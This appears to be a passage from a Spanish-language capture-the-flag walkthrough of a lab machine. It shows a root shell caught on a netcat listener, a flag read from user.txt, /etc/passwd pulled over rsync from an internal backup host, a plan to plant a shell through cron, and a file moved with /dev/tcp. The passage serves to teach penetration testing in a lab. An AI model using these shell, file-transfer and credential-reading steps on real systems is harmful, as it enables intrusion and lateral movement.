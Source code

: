 Nos ponemos en escucha 
```
➜  soqui nc -nlvp 7777
listening on [any] 7777 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 56488
root@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b#
```
### Enumerar WWW ROOT 

Encontramos la user.txt
```
root@www:/home/somaro# cat user.txt
cat user.txt
c58e468df3<REDACTED>1ccdbdd6bfd
```
Al estar investigando encontramos en /etc/hosts esta ip `172.20.0.3` podria ser `backup`
```
cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.20.0.3      www
172.19.0.4      www
```
Aunque parece que no, al hacer ping a `backup` nos arroja `172.20.0.2`
```
root@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b# ping -c 1 backup
ping -c 1 backup
PING backup (172.20.0.2) 56(84) bytes of data.
64 bytes from reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.2): icmp_seq=1 ttl=64 time=0.064 ms
```
Volvemos a intentar descargar archivos y esta vez si nos dejo # intente /root/root.txt pero nada
```
root@www:~# rsync -a rsync://backup:873/src/etc/passwd .
root@www:~# ls
passwd
root@www:~# cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nolog
```
`rsync` tiene una forma de subir archivos y podemos meterle en el cron jobs una shell pero antes tenemos que crear un tunel para recibirlo
```
➜  hack nc -nlvp 6666 < agent
root@www:/tmp# cat < /dev/tcp/172.19.0.3/6666 > agent
```
Tenemos que ver la eth0 que es la que queremos
```
root@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b# ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
15: eth0@if16: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
```